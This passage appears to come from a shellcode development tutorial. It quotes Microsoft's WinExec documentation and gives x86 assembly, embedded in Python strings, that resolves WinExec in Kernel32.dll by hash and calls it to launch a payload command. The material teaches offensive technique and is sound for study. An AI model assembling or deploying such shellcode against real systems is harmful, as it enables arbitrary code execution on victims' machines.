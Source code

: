 
### WinExec

To execute our payload using the Win32 API WinExec. [https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec). Let’s look at the API documentation and inspect the function prototype. This seems to be part of the `Kernel32.dll`.

```python
UINT WinExec(
  [in] LPCSTR lpCmdLine,
  [in] UINT   uCmdShow
);

# Parameters
[in] lpCmdLine

The command line (file name plus optional parameters) for the application to be executed. If the name of the executable file in the lpCmdLine parameter does not contain a directory path, the system searches for the executable file in this sequence:

The directory from which the application loaded.
The current directory.
The Windows system directory. The GetSystemDirectory function retrieves the path of this directory.
The Windows directory. The GetWindowsDirectory function retrieves the path of this directory.
The directories listed in the PATH environment variable.
[in] uCmdShow

The display options. For a list of the acceptable values, see the description of the nCmdShow parameter of the ShowWindow function.
```

We need to ensure that we resolve `WinExec` in `Kernel32.dll`. We add the following code to the function and stores the address into `[ebp+0x28]`.

```python
" resolve_symbols_kernel32:          "
    **"   push  0xe8afe98                ;"  #   WinExec hash
    "   call dword ptr [ebp+0x04]       ;"  #   Call find_function
    "   mov   [ebp+0x28], eax           ;"  #   Save WinExec address for later usage**
```

With the function resolved we need to add the call to `WinExec`. We want to display the window so we set the `uCMDShow` parameter to 1 e.g. `SW_SHOWNORMAL`**.**

```python
		" call_winexec:            "   #
    "   int3                            ;"  #   Breakpoint for Windbg. REMOVE ME WHEN NOT DEBUGGING!!!!
    #   Prepare parameters for call_winexec
    "   xor eax, eax                    ;"  #   Push uCmdShow onto stack
    "   inc eax                         ;"  #   Push uCmdShow onto stack
    "   push eax                        ;"  #   Push uCmdShow onto stack
		"   lea edx, [ebp+0x90]             ;"  #   szFileName appended path e.g. lpCmdLine
    "   push edx                        ;"  #   Push lpCmdLine onto stac
    **"   call dword ptr [ebp+0x28]      ;"  #   Call call_winexec**
```
